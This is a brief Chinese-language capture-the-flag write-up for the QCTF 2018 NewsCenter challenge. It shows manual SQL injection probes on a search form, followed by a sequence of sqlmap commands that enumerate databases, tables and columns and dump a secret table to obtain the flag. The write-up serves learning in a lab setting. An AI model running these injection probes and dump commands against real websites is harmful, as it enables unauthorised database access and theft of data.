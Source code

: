 ```yaml
---
title: "QCTF-2018-NewsCenter-writeup"
categories: [ "CTF" ]
tags: [ "CTF","CTF writeup" ]
draft: false
slug: "12"
date: "2019-01-06 23:04:00"
---
```


- 为什么要写已经结束很久的题的 writeup：因为在做某 CTF 训练平台的题

首先打开网站，是一个搜索界面，随便搜索下，好像没什么反应：

![][1]

试试有没有注入：

- a'：空白界面
- a and 1=1：没返回内容
- a and 1=1 and '%'='%：没返回内容

好像没啥可注入的，那看下包吧，上 burp，发现是 post 发包：

![][2]

那么存为 1.txt，用 sqlmap 跑：
`python sqlmap.py -r 1.txt -p search --dbs`

![][3]

`python sqlmap.py -r 1.txt -p search -D news --tables`

![][4]

`python sqlmap.py -r 1.txt -p search -D news -T secret_table --columns`

![][5]

`python sqlmap.py -r 1.txt -p search -D news -T secret_table -C "fl4g,id" --dump`

![][6]

得到 flag：`QCTF{sq1_inJec7ion_ezzz}`

[1]: https://img.soapffz.com/archives_img/2019/01/06/archives_20190106_230205.png
[2]: https://img.soapffz.com/archives_img/2019/01/06/archives_20190106_230257.png
[3]: https://img.soapffz.com/archives_img/2019/01/06/archives_20190106_231249.png
[4]: https://img.soapffz.com/archives_img/2019/01/06/archives_20190106_231403.png
[5]: https://img.soapffz.com/archives_img/2019/01/06/archives_20190106_231510.png
[6]: https://img.soapffz.com/archives_img/2019/01/06/archives_20190106_231903.png